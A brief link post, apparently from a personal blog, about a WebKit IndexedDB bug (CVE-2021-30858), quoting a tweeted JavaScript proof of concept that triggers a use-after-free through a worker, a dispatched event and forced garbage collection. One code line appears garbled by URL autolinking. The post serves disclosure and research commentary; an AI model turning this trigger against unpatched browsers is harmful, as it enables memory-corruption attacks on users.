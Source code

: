 +++
title = "Apple's IndexDB Has A Tweetable Exploit"
extra.direct_link = "https://googleprojectzero.github.io/0days-in-the-wild/0day-RCAs/2021/CVE-2021-30858.html"
+++

By [@maddiestone](https://twitter.com/maddiestone/status/1486402800103792645?s=21):

```js
index.html:
<script>w = new Worker('idbworker.js');</script>

idbworker.js:
function gc() {
   for (var i = 0; i < 1000; i++) { a = new Uint8Array(1024*1024); }
}

let ev = new Event('mine');
let req = http://indexedDB.open('db');
req.dispatchEvent(ev);
req = 0;
ev = 0;
gc();
```
